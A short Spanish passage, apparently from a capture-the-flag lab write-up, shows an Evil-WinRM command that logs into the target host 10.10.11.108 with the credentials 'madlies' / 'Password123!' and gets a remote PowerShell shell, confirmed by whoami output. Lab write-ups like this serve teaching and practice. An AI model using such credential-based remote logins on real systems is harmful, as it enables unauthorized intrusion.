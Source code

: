 
Por lo que con esto ya se puede conectar de forma remota en el equipo con ayuda de **Evil-WinRM** y buscar la flag.


```bash
evil-winrm -i 10.10.11.108 -u madlies  -p 'Password123!'
                                        
Evil-WinRM shell v3.5
                                        
*Evil-WinRM* PS C:\Users\madlies\Documents> whoami
return\madlies
*Evil-WinRM* PS C:\Users\madlies\Documents> 
```
{: .nolineno}














